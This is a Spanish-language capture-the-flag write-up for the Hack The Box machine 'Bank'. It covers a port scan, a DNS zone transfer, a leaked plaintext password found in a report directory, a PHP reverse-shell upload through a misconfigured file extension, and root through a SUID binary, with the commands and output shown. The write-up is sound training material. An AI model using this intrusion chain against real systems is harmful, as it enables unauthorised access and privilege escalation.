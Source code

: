 # Bank ![Avatar](https://www.hackthebox.eu/storage/avatars/f02481d8d8020005f8d66115b3bfae11_thumb.png)

## Initial Scan

```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### DNS

La máquina tiene un servidor DNS en marcha, hagamos una consulta de zone transfer sobre bank.htb
```
dig axfr bank.htb @10.10.10.29

; <<>> DiG 9.16.1-Ubuntu <<>> axfr bank.htb @10.10.10.29
;; global options: +cmd
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
bank.htb.		604800	IN	NS	ns.bank.htb.
bank.htb.		604800	IN	A	10.10.10.29
ns.bank.htb.		604800	IN	A	10.10.10.29
www.bank.htb.		604800	IN	CNAME	bank.htb.
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
;; Query time: 52 msec
;; SERVER: 10.10.10.29#53(10.10.10.29)
;; WHEN: sáb ago 01 13:13:47 CEST 2020
;; XFR size: 6 records (messages 1, bytes 171)
```

### HTTP

Tenemos varias URL que añadir a /etc/hosts gracias al DNS, tambien es buena idea ir abriendo burpsuite y añadir ambas al target scope
```
chris.bank.htb
bank.htb
```
El dominio bank.htb nos redirige a bank.htb/login.php vamos a enumerar directorios 
```
/assets (Status: 301)
/inc (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
/balance-transfer (Status: 301)  
```
Dentro de uploads no podemos mirar pero dentro de inc si y tenemos varios archivos .php pero nada que podamos ver, vayamos a /balance-transfer y veremos muchos reportes de un servicio de encriptacion con el siguiente formato:
```
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```
Todos con una peso aproximado de 580 excepto uno que pesa la mitad que el resto, accedamos a el

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```
Parece que alguien no verifico que la encriptacion funcionara , accedamos usando estas creds, una vez dentro tenenmos acceso a un menu para ver las transas y a un formulario para mandar tickets al soporte, pero en el fuente de la página del soporte hay algo sospechoso

## Exploit
```html
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```
Con esto podremos subir una revshell php cambiando la extensión por la de .htb y evitar cualquier filtro, solo es cuestion de adjuntarla al ticket y mirar nuestro ticket y ya tenemos shell

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ wc -c /home/chris/user.txt
33 /home/chris/user.txt
```

## Privesc

Consigamos una shell funcional antes que nada
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
Tras esto busquemos programas con SUID
```
www-data@bank:/$ find / -type f -user root -perm -4000 2> /dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```
El primer resultado es cuanto menos peculiar, ejecutemoslo y veamos que ocurre

```
www-data@bank:/$ /var/htb/bin/emergency
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```
Tenemos shell como root, ya solo queda coger la flag 
```
# wc -c /root/root.txt
33 /root/root.txt
```
